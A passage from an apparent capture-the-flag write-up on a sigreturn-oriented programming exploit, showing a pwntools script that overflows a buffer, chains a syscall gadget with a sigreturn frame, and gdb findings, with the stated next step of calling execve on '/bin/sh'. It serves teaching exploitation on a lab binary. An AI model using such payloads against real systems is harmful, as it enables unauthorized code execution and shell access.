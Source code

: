 ```py
payload = b"A"*24
payload += p64(vuln)
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.recvuntil(b"vuln!")
p.sendline(b"A"*14)

p.interactive()
```

Running this with gdb attached, we can see that the sigreturn syscall is executed. If we go one instruction further (`ni`) we can see that the read syscall we requested is actually being called.

!["first sigreturn in gdb"](./images/first_sig.png "first sigreturn in gdb")
!["read in gdb"](./images/read.png "read in gdb")

I included the registers in the second image to demonstrate that all of the ones we didn't set have been zeroed. We can also see that the read syscall is being called with exactly the parameters we requested in our script. Now our next step will be to use the new read to get "/bin/sh" into 0x402000 and call execve with 0x402000 in rdi. However if we go one instruction further than the images above, we immediately segfault.
